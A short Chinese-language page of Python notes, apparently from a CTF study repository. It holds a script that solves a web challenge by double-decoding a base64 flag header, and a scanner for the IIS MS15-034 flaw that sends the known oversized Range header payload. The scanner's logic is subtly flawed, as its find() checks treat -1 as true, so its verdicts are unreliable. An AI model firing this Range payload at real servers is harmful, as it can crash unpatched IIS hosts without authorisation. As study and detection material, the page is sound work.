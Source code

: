 # Python使用

## 1、进行两次base64解码

```python
import requests
import base64

s = requests.session()
# requests库的session会话对象可以跨请求保持某些参数
r = s.get('http://114.67.175.224:16592/')
# print(r.headers)
# flag在header里
aaa = r.headers['flag']
flag = base64.b64decode(r.headers['flag']).decode().split(": ")[-1]
# base64解密
# print(flag)
flag1 = base64.b64decode(flag).decode()
# base64再解密
# print(flag1)
dic = {"margin": flag1}
tr = s.post('http://114.67.175.224:16592/', data=dic)
# post参数
print(tr.text)
```

## 2、漏洞ms15-034 扫描脚本

```python
import requests
url = "http://192.168.128.20"
r = requests.get(url)
remote_server = r.headers['Server']
#存在漏洞的IIS电脑
if remote_server.find("IIS/7.5") or remote_server.find("IIS/8.0"):
    # GET / HTTP/1.1
    # Host: stuff
    # Range: bytes=0-18446744073709551615
    #漏洞http
    payloaded = {"Host": "stuff", "Range": "bytes=0-18446744073709551615"}
    r1 = requests.get(url, headers=payloaded)
    #如果响应文本包含"Requested Range Not Satisfiable"则证明存在漏洞
    if str(r1.content).find("Requested Range Not Satisfiable"):
        print(url + "  exits vuln ms15_034")
    else:
        print(url + "  not exits vuln ms15_034")
else:
    print("Server is not IIS/7.5 or IIS/8.0")

```

